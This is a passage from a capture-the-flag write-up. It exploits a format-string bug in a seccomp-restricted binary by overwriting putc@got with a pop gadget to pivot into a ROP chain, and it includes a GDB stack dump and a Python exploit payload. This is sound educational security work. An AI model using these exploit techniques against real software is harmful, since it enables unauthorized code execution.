 So, we allow only the x86_64 syscalls for `read`, `write` and `exit_group`. This is fine though, because as we saw prior the flag is already in memory - so no need to `open` it a second time.

Now that we have a good idea of our situation, lets move on to exploitation.

## Exploitation

The important thing here is the scanf - we only get 80 chars of space. I tried a lot of different approaches.
 
 The first was hijacking `putc@got` to return back into main to get more uses of the fsb this always resulted in either printf or scanf segfaulting in-function due to a mis-aligned stack. We can see in the instruction documentation for [movaps](https://c9x.me/x86/html/file_module_x86_id_180.html) that `When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.`

This is generally the case for instructions that deal with floating points that require writing to a destination.

My second approach was to write a ropchain to the stack, however owing to the amount of space i was only able to write about 2 qwords - not enough for anything resembling a ropchain. 

The reason I used so many bytes was because if i used more than a certain number of padding characters for my format string at a time, seccomp would kill my process due to SIGSYS (bad syscall). I thought it could be `brk()` triggering this, as it is a trick in CTF to get malloc to call by providing an obscenely large string, but i never took the time to figure it out.

My final approach is fairly simple - yet ironically took me the longest to come up with. If we take a look at the stack before we call `putc`, we can see the following:

```
0x007fffffffe230│+0x0000: 0x0000000000000000	 ← $rsp
0x007fffffffe238│+0x0008: 0x0000000000000002
0x007fffffffe240│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"	 ← $r10
0x007fffffffe248│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAA"
0x007fffffffe250│+0x0020: "AAAAAAAAAAAAAAA"
0x007fffffffe258│+0x0028: 0x41414141414141 ("AAAAAAA"?)
0x007fffffffe260│+0x0030: 0x0000000000000000
0x007fffffffe268│+0x0038: 0x0000000000000000
```

We have 2 qwords, and then our input buffer. This made me think - what if I hijacked `putc@got` with a gadget that has more than 2 pops? Then surely our stack ptr would be on top of our input - and we could have an actual ropchain!

My payload in the end looked like this:

```python
    pload = b"%5554c" + b"%10$hn" + b"A"*4 + p64(e.got['putc']) 
    #0x00000000004015bb: pop rdi; ret; 
    pload += p64(0x4015bb)
    # 0x4021a0 - 0x4021a4  →   "%80s" 
    pload += p64(0x4021a0)
    #0x00000000004015b9: pop rsi; pop r15; ret;
    pload += p64(0x4015b9)
    pload += p64(rwx)
    pload += b"B"*8
    #pload += p64(0x4015bb+1)
    # [0x404088] __isoc99_scanf@GLIBC_2.7  →  0x401116
    pload += p64(0x401116) 
    pload += p64(rwx)
```
